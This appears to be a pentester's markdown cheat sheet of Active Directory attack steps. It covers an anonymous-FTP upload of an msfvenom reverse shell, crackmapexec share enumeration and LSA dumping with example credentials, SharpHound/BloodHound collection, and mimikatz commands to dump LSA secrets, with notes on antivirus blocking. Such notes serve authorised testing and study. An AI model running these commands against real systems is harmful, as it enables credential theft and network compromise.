 
<h2> For initial access do nmap scan for anon access FTP, does this lead to web server? are there default pages that load web? can u insert msfvenom reverse shell/php/asp RS then browse to it on the web end?
  
From <https://github.com/TobyDavenn/ActiveDirectory/blob/main/activedirectory.md> 


![image](https://user-images.githubusercontent.com/35967437/200788095-c9c95791-7229-472a-af91-4f677ec7ec08.png)
<h2> Share enumeration </h2> <br>
can use crackmapexec to see smb access - crackmapexec smb ip -u -p --shares <br>
Take interesting shares and place into smbclient - smbclient ////ip//sharename -u --spider
<br>

<h2> Dumping LSSAS </h2><br>
This can be done with mimikatz (shown above defender may block) and also Crackmapexec -- crackmapexec smb 192.168.0.76 -u testadmin -p Password123 --lsa <br>

<h2> BloodHound</h2>
First run bloodhound on attacking machine -- neo4j console <br>
bloodhound -- creds in Onenote <br>

On machine comprimised run sharphound <br>
. .\Downloads\SharpHound.ps1    
Invoke-Bloodhound -CollectionMethod All -Domain ADDDOMAINHERE.local -ZipFileName loot.zip <br>
Inside of Bloodhound search for Upload icon  and import the loot.zip folder
<br>
note: On some versions of BloodHound the import button does not work to get around this simply drag and drop the loot.zip folder into Bloodhound to import the .json files
<br>
To view the graphed network open the menu and select queries this will give you a list of pre-compiled queries to choose from<br>

<h2> Dumping LSA with mimikatz </h2> <br>
download mimikatz to machine (AV might block) <br>
./mimikatz.exe <br>
privilege::debug (ensure you have perms to dump, must be local admin) <br>
lsadump::lsa /patch <br>
